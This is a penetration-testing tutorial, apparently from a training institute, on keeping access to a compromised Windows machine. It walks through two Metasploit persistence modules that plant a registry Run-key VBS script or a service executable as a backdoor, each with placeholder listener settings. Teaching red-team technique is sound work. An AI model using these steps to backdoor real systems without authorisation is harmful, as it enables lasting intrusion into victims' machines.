

:orphan:
(windows-persistence-techniques-with-metasploit)=
# Windows Persistence Techniques With Metasploit
 
A lot of hard work goes into exploiting any system and once the system is exploited successfully and would need further more time to pivot into other systems in the network. Maintaining access to the system is very important once the system is compromised. Persistence involves the strategies used by adversaries and red team specialists to keep access to systems even if the system restarts, credentials change, or other interruptions occur. Techniques used for persistence include any access, action, or configuration changes that let them maintain their foothold on systems, such as replacing or hijacking legitimate code or adding startup code. 

This article demonstrates how to maintain access and leave a permanent backdoor in the victim system even if the system is restarted or credentials are changed or any other interruptions. This article assumes that you have already compromised a windows machine and have a meterpreter session along with system privileges. 


Type the `ctrl+z` to background the current session in Metasploit and Search for persistence modules by just typing the “search platform:windows persistence” this shows a whole list of persistence modules that can be used to maintain access. 


*Following are some of the Metasploit modules which can be used to maintain access to the system.*

## exploit/windows/local/persistence

This is provided by Carlos Perez which is present in Metasploit. This module will install a payload that is executed during boot. It will be executed either at user logon or system startup via the registry value in "`CurrentVersion\Run`" (depending on privilege and selected method). To run this module set the session id, lhost, lport. 
```
set lhost <listner IP address>
set lport <listner port>
Set session ID
```


After setting the lhost,lport, session Id. hit enter to run this module. 

This exploit will create a persistent VBS script which will be written to `c:\windows\SystemTemp\KGMRWLnCMls.vbs`. Autoruns allow Windows Explorer to automatically launch programs from inserted storage drives and other media. This exploit will also create an autorun service under the registry editor path due to which service will start running as soon as the victim’s PC starts.
`HKCU/software/microsoft/windows/currentversion/run/sDLuGKZtqBCmc `


From the above screenshot, This module will also provide us with a `.rc` file which is saved in `/home/kali` directory. This rc is the Metasploit script that is used to remove the vbs script from the victim's machine. 


We will need to set a multi-handler again even if the victim reboots the system. 

## windows/local/persistence_service

This Module will create and upload an executable to a remote host before converting it to a persistent service. It will launch a new service that will launch the payload whenever the service is launched. It is necessary to have administrative or system privileges. The difference between this exploit and the above exploit is that this exploit will create a exe file in /windows/SysTemp folder

To run this module set the session id, lhost, lport. 
```
set lhost <listner IP address>
set lport <listner port>
Set session ID
```


From the above screenshot, this module has created `bxlZTk.exe` and uploaded to victim’s systems under the `\windows\SysTemp` directory and this exe will make a persistence service. 



When the PC boots up, some of its services start by default, therefore the persistence service exploit generates a new service that launches the payload every time the service is launched. 


The previous meterpreter session will be ended if the victim reboots the system. The following commands are required to configure the multi handler to run the payload:
````
set lhost <listner IP address>
set lport <listner port>
Set session ID 
````

## Conclusion

In many circumstances, obtaining an initial foothold on a network or an asset is insufficient, and maintaining access to the system over the long term is crucial for APT/red team professionals. This article demonstrated various techniques Metasploit techniques to maintain access for the long term. 

> **Looking to expand your knowledge of penetration testing? Check out our online course, [MPT - Certified Penetration Tester](https://www.mosse-institute.com/certifications/mpt-certified-penetration-tester.html)**